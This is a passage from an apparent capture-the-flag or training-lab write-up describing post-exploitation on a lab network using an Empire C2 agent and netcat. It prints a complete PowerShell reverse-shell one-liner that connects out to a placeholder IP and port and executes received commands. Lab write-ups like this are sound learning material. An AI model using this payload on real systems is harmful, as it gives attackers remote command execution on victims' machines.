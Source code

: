 
Now I have got a new agent in the C2 to do further enumeration on.

![alt-14](/assets/img/wreath-writeup/C2Connection2.png)

Since I’m still learning how to effectively use Empire, I’ll also get a
classic reverse shell with netcat by sending the following payload after
its URL encoded. This will require a static binary of netcat on the
Production Server to catch the reverse shell. Once I have the static
binary on the server, I start the listener and send the payload:

`powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();\[byte\[\]\]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2\>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '\> ';$sendbyte = (\[text.encoding\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` 

![alt-15](/assets/img/wreath-writeup/Pwr_to_nc.png)

![alt-16](/assets/img/wreath-writeup/netCat.png)


### Post-Exploitation

Due to having access to the GitServer as NT AUTHORITY\SYSTEM, there is
no need to escalate privileges.

![alt-17](/assets/img/wreath-writeup/nmap_service.png)
